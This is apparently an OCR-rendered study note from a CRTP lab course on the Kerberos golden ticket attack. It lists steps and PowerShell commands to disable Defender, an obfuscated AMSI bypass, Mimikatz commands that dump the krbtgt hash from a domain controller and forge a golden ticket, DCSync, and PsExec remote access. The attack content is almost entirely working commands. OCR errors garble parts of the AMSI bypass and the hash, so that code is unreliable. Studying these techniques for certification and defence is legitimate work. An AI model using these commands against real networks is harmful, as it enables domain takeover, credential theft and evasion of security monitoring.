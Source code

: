 ```yaml
---
title: "13. Golden Ticket"
section: "crtp"
date: 2022-04-12
tags: ["Domain Persistence", "golden ticket"]
---
```


## Methodology/Steps
> 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
> 2. Create a **New-PSSession** attaching to the **"domain controller"**
> 3. Enter the new session using **Enter-PSSession** 
> 4. Bypass the *AMSI* 
> 5. Exit
> 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 7. Enter the new session using **Enter-PSSession** *again*
> 8. Now we can execute mimikatz on the DC
> 9. Keep note of **krbtgt** hash
> 10. Now go to any **"non domain admin"** account
> 11. Load **Mimikats.ps1** 
> 12. Now we can create a ticket using the DC **krbtgt** hash 
> 13. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or 
>     ```powershell
>     PsExec64.exe \\test.local -u Domain\user -p Passw0rd! cmd
>     ```
>     

## Disable Defender 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## AMSI bypass
```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

## Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

## Create a ticket on any machine [ "pass the ticket" attack]
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

## List Kerberos services available
```powershell
klist
```

## To use the DCSync feature for getting krbtg hash execute the below command with DA privileges
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```